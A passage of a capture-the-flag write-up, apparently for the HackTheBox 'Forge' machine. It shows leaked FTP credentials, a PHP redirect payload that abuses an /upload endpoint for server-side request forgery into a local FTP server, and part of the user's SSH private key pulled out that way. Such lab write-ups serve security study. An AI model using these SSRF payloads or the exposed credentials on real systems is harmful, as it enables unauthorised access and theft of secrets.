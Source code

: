 ```
                <h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
                <h1 class="align-right"><a href="/upload">Upload image</a></h1>
            </nav>
    </header>
    <br><br><br>
    <ul>
        <li>An internal ftp server has been setup with credentials as user:heightofsecurity123!</li>
        <li>The /upload endpoint now supports ftp, ftps, http and https protocols for uploading from url.</li>
        <li>The /upload endpoint has been configured for easy scripting of uploads, and for uploading an image, one can simply pass a url with ?u=&lt;url&gt;.</li>
    </ul>
</body>
</html>
```  


+ There are some credentials for a user which can be used to **upload** image through url **?u=** using various protocols on *admin.forge.htb*. 
+ At this point i got lilltle lost, but after some help it turned out we can pass creds using ftp in a URL itself. something like this 
  `ftp://user:password@url`.
+ Let's forge our request to access files through ftp, again you could have done it directly by bypassing blacklisted chracters, i did my way by redirecting server using Location Header `header("Location: http://admin.forge.htb/upload?u=ftp://user:heightofsecurity123!@127.0.0.1");`.
+ send the request and curl the image. You will see contents of directory.
 ```
 drwxr-xr-x    3 1000     1000         4096 Aug 04 19:23 snap
-rw-r-----    1 0        1000           33 Jan 20 05:12 user.txt
```  
+ Nice looks like we are in user's home directory. We can read flag or we can first read user's ssh keys and then login.
+ You yould have tried ssh with id and password but it's not allowed. **user@10.10.11.111: Permission denied (publickey).**
+ Let's read user's keys, `header("Location: http://admin.forge.htb/upload?u=ftp://user:heightofsecurity123!@127.0.0.1/.ssh/id_rsa");`.
+ curling the uploaded the image.
 ```
 -----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAnZIO+Qywfgnftqo5as+orHW/w1WbrG6i6B7Tv2PdQ09NixOmtHR3
rnxHouv4/l1pO2njPf5GbjVHAsMwJDXmDNjaqZfO9OYC7K7hr7FV6xlUWThwcKo0hIOVuE
7Jh1d+jfpDYYXqON5r6DzODI5WMwLKl9n5rbtFko3xaLewkHYTE2YY3uvVppxsnCvJ/6uk
r6p7bzcRygYrTyEAWg5gORfsqhC3HaoOxXiXgGzTWyXtf2o4zmNhstfdgWWBpEfbgFgZ3D
WJ+u2z/VObp0IIKEfsgX+cWXQUt8RJAnKgTUjGAmfNRL9nJxomYHlySQz2xL4UYXXzXr8G
mL6X0+nKrRglaNFdC0ykLTGsiGs1+bc6jJiD1ESiebAS/ZLATTsaH46IE/vv9XOJ05qEXR
GUz+aplzDG4wWviSNuerDy9PTGxB6kR5pGbCaEWoRPLVIb9EqnWh279mXu0b4zYhEg+nyD
K6ui/nrmRYUOadgCKXR7zlEm3mgj4hu4cFasH/KlAAAFgK9tvD2vbbw9AAAAB3NzaC1yc2
EAAAGBAJ2SDvkMsH4J37aqOWrPqKx1v8NVm6xuouge079j3UNPTYsTprR0d658R6Lr+P5d
aTtp4z3+Rm41RwLDMCQ15gzY2qmXzvTmAuyu4a+xVesZVFk4cHCqNISDlbhOyYdXfo36Q2
GF6jjea+g8zgyOVjMCypfZ+a27RZKN8Wi3sJB2ExNmGN7r1aacbJwryf+rpK+qe283EcoG
K08hAFoOYDkX7KoQtx2qDsV4l4Bs01sl7X9qOM5jYbLX3YFlgaRH24BYGdw1ifrts/1Tm6
dCCChH7IF/nFl0FLfESQJyoE1IxgJnzUS/ZycaJmB5ckkM9sS+FGF1816/Bpi+l9Ppyq0Y
JWjRXQtMpC0xrIhrNfm3OoyYg9REonmwEv2SwE07Gh+OiBP77/VzidOahF0RlM/mqZcwxu
MFr4kjbnqw8vT0xsQepEeaRmwmhFqETy1SG/RKp1odu/Zl7tG+M2IRIPp8gyurov565kWF
DmnYAil0e85RJt5oI+IbuHBWrB/ypQAAAAMBAAEAAAGALBhHoGJwsZTJyjBwyPc72KdK9r
rqSaLca+DUmOa1cLSsmpLxP+an52hYE7u9flFdtYa4VQznYMgAC0HcIwYCTu4Qow0cmWQU
xW9bMPOLe7Mm66DjtmOrNrosF9vUgc92Vv0GBjCXjzqPL/p0HwdmD/hkAYK6YGfb3Ftkh0
2AV6zzQaZ8p0WQEIQN0NZgPPAnshEfYcwjakm3rPkrRAhp3RBY5m6vD9obMB/DJelObF98
yv9Kzlb5bDcEgcWKNhL1ZdHWJjJPApluz6oIn+uIEcLvv18hI3dhIkPeHpjTXMVl9878F+
kHdcjpjKSnsSjhlAIVxFu3N67N8S3BFnioaWpIIbZxwhYv9OV7uARa3eU6miKmSmdUm1z/
wDaQv1swk9HwZlXGvDRWcMTFGTGRnyetZbgA9vVKhnUtGqq0skZxoP1ju1ANVaaVzirMeu
 ```